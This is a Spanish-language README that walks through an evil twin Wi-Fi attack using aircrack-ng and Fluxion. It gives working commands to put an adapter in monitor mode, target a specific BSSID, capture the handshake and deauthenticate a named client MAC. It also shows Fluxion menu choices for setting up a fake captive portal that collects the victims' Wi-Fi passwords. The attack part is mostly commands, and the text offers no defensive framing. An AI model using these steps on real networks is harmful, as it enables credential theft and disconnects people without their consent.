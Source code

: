 # EVIL-TWIN-ATTACK
Script y en que consiste el ataque evil twin en redes inalambricas

ATAQUE EVIL TWIN CON LA HERRAMIENTAS AIRCRACK-NG Y FLUXION.
*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*

Requisitos para el ataque
*Antena que acepte modo monitor
*kali linux u otro sistema operativo linux

1* Capturar el handshake
2* Clonar la red victima
*Expulsar alos clientes y redirigirlos a nuestra red falsa
4*El usuario debe ingresar sus credenciales en la pagina web
5* Comprabar y comparar el handshake

git clone https://www.github.com/FluxionNetwork/fluxion.git
cd fluxion
./fluxion.sh
./fluxion.sh -i instalamos todas las depencias faltantes

modo monitor
airmon-ng check kill && airmon-ng start wlan0 

identificar Bssid de la red
airodump-ng wlan0

auditar red especifica
airodump-ng -c 11 --bssid 54:71:DD:BF:86:E4 -w /home/avh04/Analisis/captura  wlan0

Esto nos ayuda a obtener en handsheke de la red

desautenticar un dispositivo de la red
aireplay-ng -0 150 -a 54:71:DD:BF:86:E4 -c 74:74:46:c0:ff:d5 wlan0
1

numeros

[1] Portal Cautivo Crea un punto de acceso "gemelo malvado".
[1] fluxwl0  [+] TP-Link TL-WN722N v2/v3 [Realtek RTL8188EUS] En miejemplo. Tu deberasutilizar el nombre detu adaptador de red, llamese wlan0, wlan1, enp0s3 u otro.

[*] Select a wireless interface for target tracking.
3*skip
[*] Seleccione una interaz para realizar jamming.
[1] fluxwl0  [*] TP-Link TL-WN722N v2/v3 [Realtek RTL8188EUS]  
[*] Selecccione una interfaz para el punto de acceso.
4
[*] Select a method of deauthentication                                                                           
[2] aireplay  
[1] hash - cowpatty
[2] cowpatty verification (recommended)


Dato Y nombres presentes en aircrack-ng que son muy importates.
*****************************************************************************************************************************************************************************

airodump-ng 
BSSID: corresponde a la dirección MAC del punto de acceso

PWR: corresponde al nivel de señal reportado por nuestra tarjeta inalámbrica, este valor va a depender del controlador de la tarjeta.

Beacons: corresponde al numero de paquetes-anuncio enviados por el AP,

Data: corresponde al numero de paquetes de datos capturados

CH: corresponde al numero de canal en el que se encuentra la señal del AP.

MB velocidad máxima soportada por el AP

ENC: indica si existe un algoritmo de cifrado en uso; OPN: sin cifrado

ESSID: este campo es conocido generalmente como SSID.

STATION: dirección MAC de cada estación asociada (clientes o usuarios).
********************************************************************************************************************************************************************************

aireplay-ng 
Ataque 0: desautenticacion

Ataque 1: ataque de autenticación falsa

Ataque 2: reenvio interactivo de paquetes

Ataque 3: reinyeccio de petición ARP

Ataque 4: ataque “chopchop” de korek

Ataque 5: ataque de frame.

/*/*/*/*//*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*/*
CREADOR: AVH04
ANGEL GABRIEL VALDIVIA FLORES
